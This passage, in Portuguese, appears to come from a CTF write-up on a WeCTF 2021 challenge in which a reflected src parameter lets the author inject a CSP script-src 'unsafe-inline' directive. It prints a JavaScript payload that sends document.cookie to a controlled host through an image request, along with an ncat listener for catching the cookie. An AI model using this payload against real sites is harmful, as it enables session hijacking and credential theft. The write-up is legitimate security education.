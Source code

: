 Isso mostra que o que é passado pro atributo src é colocado no CSP pelo servidor. Sendo assim, isso abre uma possibilidade para alterar o que tem no CSP, permitindo que façamos um site com XSS para enviar ao administrador e pegar a flag!

Lendo mais sobre o CSP, é possível ver que o atributo `script-src` define se scripts podem ser rodados no site em questão. No site alvo, ele está desabilitado, mas ao injetarmos nosso próprio `script-src` com o valor `unsafe-inline`, podemos agora fazer tags script e executar código. 

A partir daqui, bastaria fazer um fetch com os dados do cookie para um domínio ou servidor que controlamos e sucesso, certo? Errado, por um simples motívo: fetch está bloqueado pelo CSP, e como está antes da nossa injeção, não podemos sobrescrevê-lo. Mas não seja por isso: basta, ao injetar o CSP, autorizar um domínio nosso e, por meio de outra imagem, exfiltrar os dados. Isso pode ser feito da seguinte forma: 

```js
setTimeout(function(){
	var imgNova = document.createElement("img");
	imgNova.src = "http://meu.pc:8001/?cookie=" + document.cookie;
},2000);
```

Note que a url em questão é meu.pc. Isso se dá porque tem um pequeno problema de fazer esse desafio usando localhost: como tanto a máquina do atacante como a máquina da vítima estão no mesmo domínio de rede, o cookie de autenticação será enviado mesmo se você não exfiltrar ele, porque ele é considerado como Same Origin. Para fazer com que o desafio ficasse mais parecido com o real, eu adicionei no `/etc/hosts` uma linha que define outro nome para localhost: `meu.pc`. Dessa forma, eu não tomo um _spoiler_ do desafio!

E passando esse link para o computador da vítima (no mesmo jeito com a pasta `uv_worker` que os outros desafios), quando ela acessar, uma requisição será enviada para localhost:8001. Para ver o que é mandado lá, basta "ouvir" usando netcat (`ncat -lk localhost 8001`) e o cookie chegará da seguinte forma:

![Output do netcat depois do exploit](/blog/writeup-wectf-2021/flag_csp.png)

# Considerações Finais 

Eu parei meu write up aqui por alguns motivos simples:

- Alguns containers não funcionam ainda no ambiente local, e não consegui descobrir o porque ainda
- Minhas férias acabaram, infelizmente
- Estou trabalhando em outros projetos relacionados à segurança (segredo)

Pretendo atualizar esse post com as próximas soluções que conseguir assim que tiver conseguido atacar o desafio, mas por enquanto fico por aqui. Obrigado por ter lido até aqui! 
